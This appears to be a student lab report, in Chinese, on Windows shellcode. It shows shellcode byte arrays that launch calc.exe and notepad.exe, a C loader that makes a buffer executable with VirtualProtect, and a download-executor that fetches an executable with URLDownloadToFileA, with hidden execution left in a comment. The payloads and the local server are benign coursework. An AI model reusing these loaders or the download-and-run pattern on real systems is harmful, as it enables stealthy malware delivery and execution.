









# 逆向工程与软件安全实验报告  
## shellcode相关
### 实验任务  
- [x] 给出shellcode能够成功运行  
- [x] 能从汇编源码编译通过并成功dump  
- [x] 搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理  
- [x] 修改shellcode功能为运行记事本程序notepad.exe  
- [x] (选做)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行  

### 实验过程  

##### 给出shellcode能够成功运行  
[shellcode源代码](https://www.exploit-db.com/shellcodes/48116)  
新建`calc.c`文件  
```C
#include <windows.h>
#include <stdio.h>

    char code[] = \
    "\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
    "\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
    "\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
    "\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
    "\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
    "\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
    "\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
    "\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
    "\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
    "\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
    "\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
    "\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
    "\x52\xff\xd0";//汇编生成

    int main(int argc, char **argv)
    {
        int (*func)();//函数指针
        func = (int(*)()) code;
        DWORD old_protect;
        VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &old_protect);
        (int)(*func)();
    }
```  
成功运行  
* 注意  
    1. 一定需要`.c`文件，`.cpp`文件会报强制类型转换相关错误(认真踩坑)  
      
    2. 关闭数据执行保护编译选项  
      
    

##### 能从汇编源码编译通过并成功dump  
Kali虚拟机中新建`win32-WinExec_Calc-Exit.asm`  
将汇编源码加入`.asm`文件  
```
nasm -f win32 win32-WinExec_Calc-Exit1.asm -o win32-WinExec_Calc-Exit1.o  
for i in $(objdump -D win32-WinExec_Calc-Exit1.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo  
```  
  

##### 解读shellcode原理  
[PEB structure](https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb)  


##### 修改shellcode功能为运行记事本程序notepad.exe  
对应汇编文件内容修改  
  
```
nasm -f win32 win32-WinExec_Calc-Exit.asm -o win32-WinExec_Calc-Exit.o  
for i in $(objdump -D win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```  
  
新建notepad.c文件  
```C
#include <windows.h>
#include <stdio.h>
//生成notepad.exe
char code1[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x65\x78\x65\x00\x68\x70\x61\x64\x2e\x68\x6e\x6f\x74\x65\x89"
"\xe3\x41\x51\x53\xff\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08"
"\x51\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x82"
"\xff\xff\xff\x31\xd2\x52\xff\xd0";
int main(int argc, char** argv)
{
	int (*func)();
	DWORD old_protect;
	VirtualProtect(code1, sizeof(code1), PAGE_EXECUTE_READWRITE, &old_protect);
	func = (int(*)())code1;
	(int)(*func)();
}
```  
成功运行  
  

##### 修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行  
tips：使用原生API UrlDownloadToFileA  
在主机上开放端口供下载可执行文件  
`python -m http.service`  
  
新建download.c文件  
```C
#include<Windows.h>
#include<urlmon.h>

typedef int(WINAPI* MY_DOWNLOAD_PROC)(LPUNKNOWN, LPCSTR, LPCSTR, DWORD, LPBINDSTATUSCALLBACK);

int main()
{
	HMODULE hurlmod = LoadLibrary("urlmon.dll");//手动加载urlmon.dll
	MY_DOWNLOAD_PROC function_ptr = (MY_DOWNLOAD_PROC)GetProcAddress(hurlmod, "URLDownloadToFileA");
	function_ptr(NULL, "http://127.0.0.1:8000/Desktop/calc.exe", "a.exe", 0, NULL);
//老师写的参考
	//URLDownloadToFile(NULL, "http://baidu.com", "a.html", 0, NULL);
	//CreateProcess
	//WinExec("a.exe", SW_HIDE);
}
```  
成功运行  
  

#### 问题及解决  
问题：运行时引发异常  
  
解决：修改字符集  
  
参考：[CSDN](https://blog.csdn.net/qq_39446329/article/details/108151735)  


